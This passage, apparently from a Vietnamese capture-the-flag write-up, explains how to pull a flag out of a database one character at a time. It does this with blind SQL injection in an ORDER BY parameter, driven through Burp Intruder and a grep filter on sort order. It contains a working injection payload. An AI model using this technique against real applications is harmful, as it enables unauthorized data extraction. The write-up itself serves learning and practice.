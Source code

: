 Bắn vào Intruder, để payload set 1 (`§pos§`) là số từ 1-30 (số lượng ký tự trong flag) và payload set 2 (`§char§`) là các ký tự `[a-z{}]` (phần mô tả có nói định dạng flag chall này).

```
search=a&order=(SELECT+CASE+WHEN+(SELECT+HEX(SUBSTR(flag,+§pos§,+1))+FROM+flag)+%3d+HEX('§char§')+THEN+atomic_number+ELSE+name+END)
```

![Untitled](writeup_media/Untitled%2016.png)

Ngoài ra ta cũng cần cài đặt thêm grep ở trong option để dễ dàng lọc ra những response được sort theo cột `atomic_number` (để ý những response này có nguyên tố Magnesium ở đầu)

![Untitled](writeup_media/Untitled%2017.png)
